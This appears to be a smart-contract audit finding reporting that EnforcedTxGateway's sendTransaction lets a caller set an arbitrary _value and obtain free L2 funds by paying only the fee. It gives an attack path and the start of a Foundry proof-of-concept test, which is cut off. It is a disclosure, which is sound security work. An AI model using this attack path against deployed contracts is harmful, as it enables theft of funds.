 Then, `_sendTransaction` triggers `IL1MessageQueue.appendEnforcedTransaction` with the `_value` parameter.

As a result, anyone can execute an `EnforceTxGateway::sendTransaction` filling in the `_value` parameter with any value they want, and only pay a fee. The transaction will then be processed into an L2 transaction.


### Attack Path

**1. The attacker performs `EnforceTxGateway::sendTranscation` with the `_value` parameter is `1000e18`, and only pays the fee.**

**2. Then the attacker transaction will be processed into an L2 transaction with the `_value` parameter.**

### Impact

**- The attacker will get free funds in L2.**

### PoC

- Modify this function first, as the test uses foundry startPrank:
```solidity
  function sendTransaction(
        address _target,
        uint256 _value,
        uint256 _gasLimit,
        bytes calldata _data
    ) external payable whenNotPaused {
        // solhint-disable-next-line avoid-tx-origin

        _sendTransaction(msg.sender, _target, _value, _gasLimit, _data, msg.sender);
    }
```
- Paste the code below into the new test file.
- Run with `forge test -vvvv --match-test test_attacker_get_free_funds`
#### POC CODE:
```solidity
pragma solidity =0.8.24;
import "forge-std/Test.sol";

import "../l1/gateways/EnforcedTxGateway.sol";
import {ITransparentUpgradeableProxy, TransparentUpgradeableProxy} from "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";
import {ECDSAUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/cryptography/ECDSAUpgradeable.sol";

import {Whitelist} from "../libraries/common/Whitelist.sol";
import {L1CrossDomainMessenger} from "../l1/L1CrossDomainMessenger.sol";
import {L1MessageQueueWithGasPriceOracle} from "../l1/rollup/L1MessageQueueWithGasPriceOracle.sol";
import {L1Staking} from "../l1/staking/L1Staking.sol";
import {Rollup} from "../l1/rollup/Rollup.sol";
import {IRollup} from "../l1/rollup/IRollup.sol";
import {MockZkEvmVerifier} from "../mock/MockZkEvmVerifier.sol";
import {EmptyContract} from "../misc/EmptyContract.sol";

contract EnforcedTxGatewayTest is Test {
    using ECDSAUpgradeable for bytes32;

    EnforcedTxGateway enforcedTxGatewayImpl;
    EnforcedTxGateway enforcedTxGateway;
    EmptyContract public emptyContract;

    address attacker;
    address target;
```